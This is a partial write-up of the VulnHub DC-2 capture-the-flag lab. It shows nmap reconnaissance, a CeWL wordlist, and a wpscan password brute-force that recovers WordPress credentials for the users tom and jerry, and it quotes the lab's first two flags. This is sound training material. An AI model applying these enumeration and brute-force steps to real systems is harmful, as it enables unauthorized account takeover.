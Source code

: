 vulnhub DC-2 writeup

# Enumeration

root@parrot]─[/home/user]
└──╼ #nmap -sV -sC -O -A 192.168.0.131
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-26 10:03 UTC
Nmap scan report for DC-2 (192.168.0.131)
Host is up (0.00085s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-generator: WordPress 4.7.10
|_http-server-header: Apache/2.4.10 (Debian)
| http-title: DC-2 &#8211; Just another WordPress site
|_Requested resource was http://dc-2/
MAC Address: 08:00:27:6E:FC:4F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop


# cewl
[root@parrot]─[/home/user]
└──╼ #cewl -w dc-2.txt -o http://192.168.0.131
CeWL 5.4.3 (Arkanoid) Robin Wood (robin@digi.ninja) (https://digi.ninja/)


# wordpress scan
┌─[root@parrot]─[/home/user]
└──╼ #wpscan -P /home/user/dc-2.txt -e vp --url http://dc-2

#output of wordpress scans
[i] User(s) Identified:

[+] admin
 | Detected By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] jerry
 | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)


[i] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient

##flag1 


Flag 1:

Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.

More passwords is always better, but sometimes you just can’t win them all.

Log in as one to see the next flag.

If you can’t find it, log in as another.

##flag2

Flag 2:

If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.

##zenmap command

nmap -p 1-65535 -T4 -A -v 192.168.0.131

results:
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
